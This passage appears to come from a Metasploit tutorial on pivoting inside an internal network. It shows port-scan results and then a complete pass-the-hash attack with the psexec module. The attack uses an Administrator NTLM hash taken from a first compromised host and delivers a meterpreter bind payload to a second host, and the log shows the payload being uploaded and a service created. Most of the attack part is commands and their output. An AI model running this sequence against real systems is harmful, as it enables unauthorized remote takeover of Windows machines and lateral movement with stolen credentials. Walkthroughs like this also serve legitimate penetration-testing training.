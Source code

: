 ```bash
> 10.1.13.3:445 - TCP OPEN
> 10.1.13.2:445 - TCP OPEN
> 10.1.13.2:139 - TCP OPEN
> Scanned 256 of 256 hosts (100% complete)
> Auxiliary module execution completed
msf auxiliary(tcp) >
```
As a result of the scan, we found 2 IP addresses as `10.1.13.2` and `10.1.13.3`. Since the `10.1.13.3` IP address already belongs to our first computer, we will focus on the `10.1.13.2` IP address.

## Let's Make a Connection

We know that port 445 is used for `samba` network sharing operations. If so, we can use the `exploit/windows/smb/psexec` module. When making the module settings, note that we entered the `Administrator:500:81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d` hash values ​​obtained from the first computer.

```bash
msf auxiliary(tcp) > use exploit/windows/smb/psexec
msf exploit(psexec) > show options

Module options:

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 RHOST yes The target address
 RPORT 445 yes Set the SMB service port
 SMBDomain WORKGROUP no The Windows domain to use for **authentication
 SMBPass no The password for the specified username
 SMBUser no The username to authenticate as
Exploit target:

 Id Name
 -- ----
 0 automatic
msf exploit(psexec) > set RHOST 10.1.13.2
RHOST => 10.1.13.2

msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator

msf exploit(psexec) > set SMBPass 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d
SMBPass => 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d

msf exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp

msf exploit(psexec) > exploit

> Connecting to the server...
> Started bind handler
> Authenticating to 10.1.13.2:445|WORKGROUP as user 'Administrator'...
> Uploading payload...
> Created \qNuIKByV.exe...
>Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (UOtrbJMd - "MNYR")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
```